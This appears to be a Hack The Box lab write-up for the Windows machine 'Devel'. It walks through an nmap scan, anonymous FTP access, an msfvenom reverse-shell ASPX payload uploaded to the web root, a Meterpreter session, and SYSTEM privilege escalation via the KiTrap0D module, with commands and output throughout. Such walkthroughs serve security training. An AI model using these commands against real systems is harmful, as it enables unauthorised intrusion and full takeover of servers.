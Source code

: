 ```yaml
---
layout: post
title: Devel(HTB)
categories:
  - Writeup
---
```


<br>OS Windows
<br>IP: 10.10.10.5
<br>Machine Author: ch4p

**Nmap**:-
<font size="1">
<div style="height:400px;width:600px;overflow:auto;background-color:#262626;color:White;scrollbar-base-color:gold;font-family:monospace;padding:10px;">
<p><font color="red">root@kali</font>:<font color="RoyalBlue">~/Desktop</font># nmap -sS -A 10.10.10.5
  
<br>Starting Nmap 7.50 ( https://nmap.org ) at 2017-12-18 15:47 EST
<br>Nmap scan report for 10.10.10.5
<br>Host is up (0.22s latency).
<br>Not shown: 998 filtered ports
<br>PORT   STATE SERVICE VERSION
<br><font color="BB69EC">21/tcp</font> open  ftp     Microsoft ftpd
<br>| ftp-anon: <font color="53E100">Anonymous FTP login allowed</font> (FTP code 230)
<br>| 03-18-17  01:06AM                  aspnet_client
<br>| 03-17-17  04:37PM                  689 iisstart.htm
<br>|_03-17-17  04:37PM               184946 welcome.png
<br><font color="BB69EC">80/tcp</font> open  http    <font color="53E100">Microsoft IIS httpd 7.5</font>
<br>| http-methods: 
<br>|_  Potentially risky methods: TRACE
<br>|_http-server-header: <font color="53E100">Microsoft-IIS/7.5</font>
<br>|_http-title: IIS7
<br>Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
<br>Device type: general purpose|phone|specialized
<br>Running (JUST GUESSING): Microsoft Windows 8|Phone|2008|8.1|7|Vista|2012 (92%)
<br>OS CPE: cpe:/o:microsoft:windows_8 cpe:/o:microsoft:windows cpe:/o:microsoft:windows_server_2008:r2 cpe:/o:microsoft:windows_8.1 cpe:/o:microsoft:windows_7 cpe:/o:microsoft:windows_vista::- cpe:/o:microsoft:windows_vista::sp1 cpe:/o:microsoft:windows_server_2012
<br>Aggressive OS guesses: Microsoft Windows 8.1 Update 1 (92%), Microsoft Windows Phone 7.5 or 8.0 (92%), Microsoft Windows Server 2008 R2 (91%), Microsoft Windows Server 2008 R2 or Windows 8.1 (91%), Microsoft Windows Server 2008 R2 SP1 or Windows 8 (91%), Microsoft Windows 7 (91%), Microsoft Windows 7 SP1 or Windows Server 2008 R2 (91%), Microsoft Windows 7 SP1 or Windows Server 2008 SP2 or 2008 R2 SP1 (91%), Microsoft Windows Vista SP0 or SP1, Windows Server 2008 SP1, or Windows 7 (91%), Microsoft Windows Embedded Standard 7 (91%)
<br>No exact OS matches for host (test conditions non-ideal).
<br>Network Distance: 2 hops
<br>Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

<br>TRACEROUTE (using port 21/tcp)
<br>HOP RTT       ADDRESS
<br>1   283.76 ms 10.10.14.1
<br>2   283.90 ms 10.10.10.5

<br>OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
<br>Nmap done: 1 IP address (1 host up) scanned in 55.06 seconds</p>
</div>
</font>

Anonymous login in FTP is allowed, which means we can loggin to the FTP server with {_**anonymous**_} as a username and password.
<font size="1">
<div style="height:250px;width:600px;overflow:auto;background-color:#262626;color:White;scrollbar-base-color:gold;font-family:monospace;padding:10px;">
<p><font color="red">root@kali</font>:<font color="RoyalBlue">~/Desktop</font># ftp 10.10.10.5
<br>Connected to 10.10.10.5.
<br>220 Microsoft FTP Service
<br>Name (10.10.10.5:root): anonymous
<br>331 Anonymous access allowed, send identity (e-mail name) as password.
<br>Password:
<br>230 User logged in.
<br>Remote system type is Windows_NT.
<br><font color="BB69EC">ftp</font>> ls
<br>200 PORT command successful.
<br>125 Data connection already open; Transfer starting.
<br>03-18-17  01:06AM                      <font color="53E100">aspnet_client</font>
<br>03-17-17  04:37PM                  689 <font color="53E100">iisstart.htm</font>
<br>03-17-17  04:37PM               184946 <font color="53E100">welcome.png</font>
<br>226 Transfer complete.
<br><font color="BB69EC">ftp</font>></p> 
</div>
</font>
Looks like we got the access to the Web-Directory of the server, So now we will generate our payload using _**msfvenom**_ , As the target server is using IIS 7 so we will need to generate the payload with the extension of (_**.aspx**_).
<font size="1">
<div style="height:200px;width:600px;overflow:auto;background-color:#262626;color:White;scrollbar-base-color:gold;font-family:monospace;padding:10px;">
<p><font color="red">root@kali</font>:<font color="RoyalBlue">~/Desktop</font># msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.*.* LPORT=4455 -b "\x00" -f aspx > teck.aspx
<br>No platform was selected, choosing Msf::Module::Platform::Windows from the payload
<br>No Arch selected, selecting Arch: x86 from the payload
<br>Found 10 compatible encoders
<br>Attempting to encode payload with 1 iterations of x86/shikata_ga_nai
<br>x86/shikata_ga_nai succeeded with size 360 (iteration=0)
<br>x86/shikata_ga_nai chosen with final size 360
<br>Payload size: 360 bytes
<br>Final size of aspx file: 2917 bytes
<br><font color="red">root@kali</font>:<font color="RoyalBlue">~/Desktop</font>#</p>
</div>
</font>
Now upload our generated payload into the server using **_FTP_**.
<font size="1">
<div style="height:220px;width:600px;overflow:auto;background-color:#262626;color:White;scrollbar-base-color:gold;font-family:monospace;padding:10px;">
<p><font color="BB69EC">ftp</font>> put teck.aspx 
<br>local: teck.aspx remote: teck.aspx
<br>200 PORT command successful.
<br>125 Data connection already open; Transfer starting.
<br>226 Transfer complete.
<br>2954 bytes sent in 0.00 secs (12.4653 MB/s)
<br><font color="BB69EC">ftp</font>> ls
<br>200 PORT command successful.
<br>125 Data connection already open; Transfer starting.
<br>03-18-17  01:06AM                      aspnet_client
<br>03-17-17  04:37PM                  689 iisstart.htm
<br>12-22-17  07:35AM                 2907 <font color="53E100">teck.aspx</font>
<br>03-17-17  04:37PM               184946 welcome.png
<br>226 Transfer complete.
<br><font color="BB69EC">ftp</font>></p>
</div>
</font>
The file has been uploaded, now to get the reverse shell first open the multi handler listner in **_MSF_** and then browse the file {**http://10.10.10.5/teck.aspx**}.
<font size="1">
<div style="height:300px;width:600px;overflow:auto;background-color:#262626;color:White;scrollbar-base-color:gold;font-family:monospace;padding:10px;">
<p><font color="BB69EC">msf</font> > use exploit/multi/handler
<br><font color="BB69EC">msf exploit</font>(<font color="red">handler</font>) > set payload windows/meterpreter/reverse_tcp
<br>payload => windows/meterpreter/reverse_tcp
<br><font color="BB69EC">msf exploit</font>(<font color="red">handler</font>) > set LHOST 10.10.*.*
<br>LHOST => 10.10.14.14
<br><font color="BB69EC">msf exploit</font>(<font color="red">handler</font>) > set LPORT 4455
<br>LPORT => 4455
<br><font color="BB69EC">msf exploit</font>(<font color="red">handler</font>) > exploit

<br><font color="RoyalBlue">[*]</font> Started reverse TCP handler on 10.10.*.*:4455 
<br><font color="RoyalBlue">[*]</font> Starting the payload handler...
<br><font color="RoyalBlue">[*]</font> Sending stage (957487 bytes) to 10.10.10.5
<br><font color="RoyalBlue">[*]</font> Meterpreter session 1 opened (10.10.*.*:4455 -> 10.10.10.5:49158) at 2017-12-18 17:27:04 -0500

<br><font color="BB69EC">meterpreter</font> > getuid
<br>Server username: <font color="53E100">IIS APPPOOL\Web</font>
<br><font color="BB69EC">meterpreter</font> >run post/windows/manage/migrate

<br><font color="RoyalBlue">[*]</font> Running module against DEVEL
<br><font color="RoyalBlue">[*]</font> Current server process: w3wp.exe (1132)
<br><font color="RoyalBlue">[*]</font> Spawning notepad.exe process to migrate to
<br><font color="53E100">[+]</font> Migrating to 264
<br><font color="53E100">[+]</font> Successfully migrated to process 264
<br><font color="BB69EC">meterpreter</font> > </p>
</div>
</font>
<br>We got the web **_Meterpreter_** session, run the post migrate command or the meterpreter session will be close after 5 min. Now in able to read the flag first we need to _Escalate our Privilege_.

<br>**Privilege Escalation Exploit**:- [Windows SYSTEM Escalation via KiTrap0D](https://www.rapid7.com/db/modules/exploit/windows/local/ms10_015_kitrap0d)
<br>**Vulnerabilty Description**:- This module will create a new session with SYSTEM privileges via the KiTrap0D exploit by Tavis Ormandy. If the session in use is already elevated then the exploit will not run. The module relies on kitrap0d.x86.dll, and is not supported on x64 editions of Windows.

<br>**POC**:-
<font size="1">
<div style="height:300px;width:600px;overflow:auto;background-color:#262626;color:White;scrollbar-base-color:gold;font-family:monospace;padding:10px;">
<p>meterpreter > background 
<br><font color="RoyalBlue">[*]</font> Backgrounding session 3...
<br>msf exploit(<font color="red">handler</font>) > use exploit/windows/local/ms10_015_kitrap0d
<br>msf exploit(<font color="red">ms10_015_kitrap0d</font>) > set SESSION 3
<br>SESSION => 3
<br>msf exploit(<font color="red">ms10_015_kitrap0d</font>) > set LHOST 10.10.*.*
<br>LHOST => 10.10.*.*
<br>msf exploit(<font color="red">ms10_015_kitrap0d</font>) > set LPORT 444
<br>LPORT => 444
<br>msf exploit(<font color="red">ms10_015_kitrap0d</font>) > set payload windows/meterpreter/reverse_tcp
<br>payload => windows/meterpreter/reverse_tcp
<br>msf exploit(<font color="red">ms10_015_kitrap0d</font>) > exploit

<br><font color="RoyalBlue">[*]</font> Started reverse TCP handler on 10.10.*.*:444 
<br><font color="RoyalBlue">[*]</font> Launching notepad to host the exploit...
<br><font color="53E100">[+]</font> Process 1376 launched.
<br><font color="RoyalBlue">[*]</font> Reflectively injecting the exploit DLL into 1376...
<br><font color="RoyalBlue">[*]</font> Injecting exploit into 1376 ...
<br><font color="RoyalBlue">[*]</font> Exploit injected. Injecting payload into 1376...
<br><font color="RoyalBlue">[*]</font> Payload injected. Executing exploit...
<br><font color="53E100">[+]</font> Exploit finished, wait for (hopefully privileged) payload execution to complete.
<br><font color="RoyalBlue">[*]</font> Sending stage (957487 bytes) to 10.10.10.5
<br><font color="RoyalBlue">[*]</font> Meterpreter session 4 opened (10.10.*.*:444 -> 10.10.10.5:49158) at 2017-12-18 18:01:20 -0500

<br>meterpreter >getuid
<br>Server username: <font color="53E100">NT AUTHORITY\SYSTEM</font>
<br>meterpreter ></p> 

</div>
</font>

<br>**Flags**:-
<font size="1">
<div style="height:300px;width:600px;overflow:auto;background-color:#262626;color:White;scrollbar-base-color:gold;font-family:monospace;padding:10px;">
<p>c:\Users\babis\Desktop>type <font color="53E100">user.txt.txt</font>
<br>type user.txt.txt
<br>********************
<br>c:\Users\Administrator\Desktop>type <font color="53E100">root.txt.txt</font>
<br>type root.txt.txt
<br>********************
<br>c:\Users\Administrator\Desktop></p>  
</div>
</font>

<p class="message">
  ~ Hack the World and Stay Noob
</p>

[Twitter](https://twitter.com/Teck__K2) / [Hack The Box](https://www.hackthebox.eu/profile/966) / [CTF Team](https://ctftime.org/team/20102) /
[Teck_N00bs Community Telegram](https://t.me/Teck_N00bs)

<script src="https://www.hackthebox.eu/badge/966"> </script>
